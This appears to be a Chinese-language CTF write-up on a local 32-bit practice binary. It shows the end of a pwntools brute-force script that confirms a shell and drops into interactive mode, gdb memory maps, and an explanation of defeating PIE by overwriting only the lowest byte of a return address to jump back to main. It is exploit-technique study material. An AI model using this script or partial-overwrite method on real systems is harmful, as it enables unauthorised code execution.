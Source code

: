 ```python
		cn.sendline('echo aaaaa')
		echo = cn.recv()[:4]
		print echo
	except:
		print 'try fail'
		cn.close()
		continue
	if echo == 'aaaa':#make sure we get shell
		cn.interactive()
	print 'got end'
	cn.close()
```

现在想不用爆破的。

首先，第一点难在开了pie，我们再构造rop的时候无法预先知道欲跳转到code段代码的真实地址（比如跳回到main）。

还没运行时，gdb看到的是这样的：
```
gdb-peda$ vmm
Warning: not running or target is remote
Start      End        Perm	Name
0x0000044c 0x000006f8 rx-p	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
0x00000154 0x00000820 r--p	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
0x00001edc 0x0000200c rw-p	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
```
上面都是相对地址。等真正运行了地址会变成这样
```
gdb-peda$ vmm
Start      End        Perm	Name
0x56555000 0x56556000 r-xp	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
0x56556000 0x56557000 r--p	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
0x56557000 0x56558000 rw-p	/home/veritas/pwn/exercise/read_write/pwn2/pwn2_2
0xf7e04000 0xf7e05000 rw-p	mapped
0xf7e05000 0xf7fb2000 r-xp	/lib32/libc-2.23.so
0xf7fb2000 0xf7fb3000 ---p	/lib32/libc-2.23.so
0xf7fb3000 0xf7fb5000 r--p	/lib32/libc-2.23.so
0xf7fb5000 0xf7fb6000 rw-p	/lib32/libc-2.23.so
0xf7fb6000 0xf7fba000 rw-p	mapped
0xf7fd6000 0xf7fd8000 r--p	[vvar]
0xf7fd8000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffb000 r-xp	/lib32/ld-2.23.so
0xf7ffb000 0xf7ffc000 rw-p	mapped
0xf7ffc000 0xf7ffd000 r--p	/lib32/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib32/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]
```

这里说一下，gdb如果不设置，是会默认禁用pie的，所以你每次用gdb调试时看到的地址都是上面这个，而实际情况并不是这样（可以用attach观察）。

**重点**：pie有一个特点，他是按页来随机的，所以最低的一字节是不会改变的。我们通过溢出只修改返回值的最低位（little-endian所以在最低位在低址上）就可以**实现0x100范围内的短跳**。

这里，程序本来会跳转到main的结尾，现在我们可以覆盖一字节让他从新跳到main上，有了二次输入的机会。
